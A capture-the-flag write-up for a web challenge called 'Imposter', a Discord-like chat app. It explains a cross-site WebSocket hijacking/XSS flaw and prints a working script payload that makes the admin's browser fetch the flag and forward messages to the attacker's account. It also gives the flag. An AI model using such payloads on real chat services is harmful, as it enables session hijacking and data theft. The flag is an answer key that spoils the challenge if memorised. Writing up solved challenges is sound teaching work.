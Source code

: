 # Imposter

Author: `tacex`

I'm not a big fan of Discord's new ToS changes, so I'm making my own crappy version of Discord that isn't overly invasive.

## Solution

The webapp is very vulnerable to XSS, or more specifically CSWSH. It is possible to send a socket message as admin to get the flag from the server and send it to yourself. Send the following payload to `admin#0000` to win.

<script>s=io();s.on('connect', function() {s.emit('join')});s.on('message', function(data){s.emit('json',{'to':'lmao#9370','message':data.content,'time':'00:00:00 AM'}); s.close()});setTimeout(function() {s.emit('flag')},500)</script>

Flag: `gigem{its_like_xss_but_with_extra_steps}`
